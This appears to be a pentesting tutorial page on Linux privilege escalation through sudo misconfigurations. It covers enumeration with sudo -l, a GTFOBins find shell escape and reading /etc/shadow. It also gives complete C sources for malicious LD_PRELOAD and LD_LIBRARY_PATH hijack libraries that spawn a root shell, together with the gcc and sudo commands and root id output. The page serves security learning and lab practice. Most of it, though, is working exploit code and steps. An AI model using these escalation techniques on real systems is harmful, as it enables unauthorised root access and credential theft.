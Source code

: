 ```yaml
---
description: >-
  Commands you are allowed to run as root, which may allow you to escape from
  the command into a root shell
---
```


# Sudo

## Finding sudo commands

Simply using this command you get a list of commands you can execute as other users.&#x20;

```bash
sudo -l
```

If you get any error message like these, it means you probably cannot use this technique for this user:

> Sorry, user \<username> may not run sudo on \<machine>.

> \<username> is not in the sudoers file. This incident will be reported.

In the best-case scenario, you can run any command (even `sudo /bin/bash`) as root (without a password):

```bash
Matching Defaults entries for <username> on <machine>:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
    
User <username> may run the following commands on <machine>:
    (ALL) NOPASSWD: ALL
```

Another example is if you can only execute a certain program or the `NOPASSWD` tag is not set meaning you do need the user's password.&#x20;

```bash
Matching Defaults entries for <username> on <machine>:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User <username> may run the following commands on <machine>:
    (ALL : ALL) /usr/bin/find
```

## Exploiting a sudo program

Now that we have a list of programs we are allowed to use, we can see if we can get a shell in any way. To do this you look up the program on [GTFOBins](https://gtfobins.github.io/#+sudo). If it has the `Sudo` tag set, it means you can use it to get some elevated privilege.&#x20;

{% embed url="https://gtfobins.github.io/#+sudo" %}
GTFOBins, a searchable list of exploitable binaries
{% endembed %}

Then just use the command to get a shell. With the `/usr/bin/find` binary it would be this for example:

```bash
sudo find . -exec /bin/sh \; -quit
```

If the binary does not allow you to get a shell instantly, you can try other things like file reading to read the `/etc/shadow` file containing password hashes. More information about cracking these shadow hashes in [#cracking-shadow-hashes](../../cryptography/hashing/cracking-hashes.md#cracking-shadow-hashes "mention").&#x20;

### env\_keep

Sometimes the program itself is not exploitable, but there may be a `env_keep` option. This option allows you to inherit environment variables while executing the program, letting it do different things than normal. Two dangerous environment variables here are `LD_PRELOAD` and `LD_LIBRARY_PATH`, because they allow you to overwrite the libc path of the program to another file that you can control. This means you can execute any C library you make before the real sudo program runs.&#x20;

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ sudo -l
</strong>Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH

User user may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/apache2
</code></pre>

The first `LD_PRELOAD` just specifies the direct path to the library. To compile a malicious library yourself just make some C code to execute a privileged shell, and compile it like a library:

{% code title="preload.c" %}
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);  // Root permissions
        system("/bin/bash -p");  // Start bash shell
}
```
{% endcode %}

```shell-session
$ gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c
```

Now you have the malicious preload.so file that you can include by setting the `LD_PRELOAD` before running the allowed sudo program (make sure to use the full path):

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ sudo LD_PRELOAD=/tmp/preload.so /usr/sbin/apache2
</strong># id
uid=0(root) gid=0(root) groups=0(root)
</code></pre>

Then for the `LD_LIBRARY_PATH` option there is another similar way. This variable only sets the directory to find the other libraries in, so we first need to know what libraries are loaded to then overwrite them. Do this using `ldd`:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ ldd /usr/sbin/apache2
</strong>        linux-vdso.so.1 =>  (0x00007fff8f5ff000)
        libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f52d4527000)
        libaprutil-1.so.0 => /usr/lib/libaprutil-1.so.0 (0x00007f52d4303000)
        libapr-1.so.0 => /usr/lib/libapr-1.so.0 (0x00007f52d40c9000)
        libpthread.so.0 => /lib/libpthread.so.0 (0x00007f52d3ead000)
        libc.so.6 => /lib/libc.so.6 (0x00007f52d3b41000)
        libuuid.so.1 => /lib/libuuid.so.1 (0x00007f52d393c000)
        librt.so.1 => /lib/librt.so.1 (0x00007f52d3734000)
        libcrypt.so.1 => /lib/libcrypt.so.1 (0x00007f52d34fd000)
        libdl.so.2 => /lib/libdl.so.2 (0x00007f52d32f8000)
        libexpat.so.1 => /usr/lib/libexpat.so.1 (0x00007f52d30d0000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f52d49e4000)
</code></pre>

We can choose any of these filenames to overwrite. Let's take `libcrypt.so.1` for example. We'll again compile some C code to a valid library with the functions that it will expect:

{% code title="library_path.c" %}
```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));  // Function that is called

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);  // Root permissions
        system("/bin/bash -p");  // // Start bash shell
}
```
{% endcode %}

Then we compile it again to a library and set the `LD_LIBRARY_PATH` to a directory containing our malicious library:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ gcc -o /tmp/libcrypt.so.1 -shared -fPIC library_path.c
</strong><strong>$ sudo LD_LIBRARY_PATH=/tmp /usr/sbin/apache2
</strong># id
uid=0(root) gid=0(root) groups=0(root)
</code></pre>
